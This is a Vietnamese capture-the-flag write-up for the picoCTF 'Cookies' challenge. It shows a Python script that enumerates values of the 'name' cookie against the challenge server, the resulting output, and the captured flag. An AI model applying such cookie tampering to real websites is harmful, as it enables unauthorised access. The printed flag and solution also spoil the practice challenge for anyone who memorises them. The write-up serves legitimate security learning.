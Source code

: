 ## Description
> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/
## Link challenge 
> https://play.picoctf.org/practice/challenge/173?category=1&page=1
## Solution
- Đầu tiên em truy cập vào đường dẫn đề cho `http://mercury.picoctf.net:27177/`
- Tại trang chủ em thấy 1 box cho phép nhập dữ liệu.
- Nếu em nhập `snickerdoodle` thì nó sẽ báo đúng, có vẻ như nó xác thực từ cookies
- ![image](image/1.PNG)
- Sử dụng extension `cookies editor` em chỉnh sửa các value lần lượt thì các giá trị hiển thị tại home sẽ thay đổi 
- ![image](image/2.PNG)
- Tại nguồn [này](https://javascript.info/cookie) => `The total number of cookies per domain is limited to around 20+, the exact limit depends on the browser.`
- Em sẽ viết script in theo cookie value chạy từ 1 đến 25
```
import requests

url = 'http://mercury.picoctf.net:27177/'

# Set the cookie in the headers

for i in range(0, 25):
    cookies = {'name': f'{i}'}
    print(cookies)
    # Make a request to the URL with the cookie
    response = requests.get(url, cookies=cookies).text
    # xu ly
    
    response = response.split('<p style="text-align:center; font-size:30px;"><b>')[-1]
    response = response.split("</b></p>")[0]
    print(response)
```
- Và đây là kết quả
```
{'name': '0'}
I love snickerdoodle cookies!
{'name': '1'}
I love chocolate chip cookies!
{'name': '2'}
I love oatmeal raisin cookies!
{'name': '3'}
I love gingersnap cookies!
{'name': '4'}
I love shortbread cookies!
{'name': '5'}
I love peanut butter cookies!
{'name': '6'}
I love whoopie pie cookies!
{'name': '7'}
I love sugar cookies!
{'name': '8'}
I love molasses cookies!
{'name': '9'}
I love kiss cookies!
{'name': '10'}
I love biscotti cookies!
{'name': '11'}
I love butter cookies!
{'name': '12'}
I love spritz cookies!
{'name': '13'}
I love snowball cookies!
{'name': '14'}
I love drop cookies!
{'name': '15'}
I love thumbprint cookies!
{'name': '16'}
I love pinwheel cookies!
{'name': '17'}
I love wafer cookies!
{'name': '18'}
Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
{'name': '19'}
I love macaroon cookies!
{'name': '20'}
I love fortune cookies!
{'name': '21'}
I love crinkle cookies!
{'name': '22'}
I love icebox cookies!
{'name': '23'}
I love gingerbread cookies!
{'name': '24'}
I love tassie cookies!
```
> Flag : picoCTF{3v3ry1_l0v3s_c00k135_064663be}